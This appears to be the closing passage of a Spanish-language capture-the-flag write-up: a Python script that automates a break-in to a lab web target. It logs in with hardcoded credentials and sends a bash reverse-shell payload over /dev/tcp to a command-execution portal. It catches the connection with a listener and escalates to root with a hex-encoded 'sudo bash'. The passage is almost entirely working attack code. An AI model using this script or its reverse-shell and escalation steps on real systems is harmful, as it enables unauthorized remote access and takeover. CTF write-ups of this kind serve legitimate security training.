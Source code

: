 ```py
    print(Colors['reset'] + '\n')
    return

def success():
    print(Colors['green'] + "\t¡Completado!"+ Colors['reset'])
    sleep(1)

def login():

    post_data= {
        'username': 'R1ckRul3s',
        'password': 'Wubbalubbadubdub',
        'sub':'Login'
    }
    print(Colors['purple']+"\nIniciando sesión en la página"+Colors['reset'],end='')
    wait()
    r = s.post(victim,data=post_data)
    success()

def shell():
    payload = f'bash -c "bash -i >& /dev/tcp/{sys.argv[1]}/1234 0>&1"'

    post_data={
        'command': payload,
        'sub' : 'Execute'
    }
    r = s.post(victim_portal,data=post_data)

if __name__ == '__main__':
    login()
    print(Colors['purple']+"\nEstableciendo la conexión reversa"+Colors['reset'],end='')
    wait()
    try:
        threading.Thread(target=shell, args=()).start()
    except Exception as e:
        log.error(str(e))
    
    shell = listen(1234, timeout=15).wait_for_connection()

    if shell.sock is None:
        print(Colors['red'] + "\nNo se ha obtenido ninguna conexión :(" + Colors['reset'])
        sleep(1)
        exiting()
    else:
        print('\n')
        success()
        print(Colors['green'] + "\n\t[+]Conexión establecida como usuario www-data\n" + Colors['reset'])
        time.sleep(1)
    
    print(Colors['purple'] + "\nIniciando escalada de privilegios" + Colors['reset'],end='')
    wait()
    shell.sendline(b'\x73\x75\x64\x6f\x20\x62\x61\x73\x68')
    print(Colors['green'] + "\nPwned!!!\n" + Colors['reset'])
    shell.interactive()
```

Hemos terminado la automatización de la intrusión.

Nos vemos, hasta la próxima.
